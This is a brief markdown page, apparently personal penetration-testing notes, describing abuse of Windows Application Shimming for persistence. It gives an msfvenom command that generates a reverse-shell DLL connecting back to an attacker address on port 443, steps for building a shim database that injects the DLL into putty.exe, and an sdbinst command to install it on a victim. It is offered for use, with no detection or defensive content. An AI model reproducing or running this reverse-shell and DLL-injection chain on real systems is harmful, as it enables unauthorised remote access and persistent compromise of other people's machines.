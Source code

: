 # Application Shimming

Application Shimming is a malicious technique on Microsoft Windows operating systems in which Application Shim's are abused to establish persistence, inject DLLs, elevate privileges .
will be abused to inject a malicious payload into putty.exe process, which will connect back to our attacking machine.

download 
https://docs.microsoft.com/en-us/windows-hardware/get-started/what-s-new-in-kits-and-tools

### payload

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.46 LPORT=443 -f dll > nss.dll
```

### create custome db

1. run compatibility Adminstrator fro start Menu
2. Database --> Create New --> Application Fix
3. Name : putty Name of the vendor : NooraNet Program file location : putty.exe
4. select injectdll in compatibilty fixes windows go to parameters tab add 
5. add dll path in command line 

### Run shim sdb on victim

```
sdbinst.exe nss.sdb
```
